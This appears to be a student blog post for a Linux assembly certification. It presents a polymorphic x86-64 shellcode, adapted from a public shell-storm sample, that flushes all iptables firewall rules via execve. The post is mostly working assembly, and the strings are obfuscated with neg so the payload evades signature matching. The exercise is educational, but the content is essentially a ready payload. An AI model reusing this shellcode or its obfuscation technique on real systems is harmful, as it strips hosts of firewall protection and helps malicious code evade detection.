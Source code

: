 # Polymorphic version of a flush iptables shellcode

Original shellcode:
```
http://shell-storm.org/shellcode/files/shellcode-683.php
```

The original shellcode is 49 bytes in size and my polymorphic version is 59 bytes in size.

## Changes
1. Use of cdq to null out rdx
2. The original source code uses ```shr``` to deobfuscate strings at runtime. I used ```neg``` to deobfuscate.

## Asm
```
global _start
section .text
_start:

    xor rax, rax
    cdq
    push rax
    push word 0xb9d3 ; Negotiated "-F"
    mov rcx, rsp ; rcp has the deobfuscated string
    neg word [rcx] ; Deobfuscate -F

    mov rbx,0xffff8c9a939d9e8c ; Obfuscated part of /sbin/iptables
    push rbx
    mov rbx,0x8f96d091969d8cd1 ; Obfuscated part of /sbin/iptables
    push rbx
    mov rdi, rsp ; rdi does not point to the obfusctated string

    neg qword [rsp]  ; Deobfuscate /sbin/iptables
    neg qword [rsp + 8] ; Deobfuscate /sbin/iptables

    push rax ; Put a nullbyte on the stack
    push rcx ; Put deobfuscated "-F" on stack
    push rdi ; Put deobfuscated "/sbin/iptables" on stack

    mov rsi, rsp ; rsi does now point to the first element of argv on the stack

    mov al, 0x3b ; Finally call execve("/sbin/iptables", [ "/sbin/iptables", "-F", NULL ], 0)
    syscall

```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE64-1581
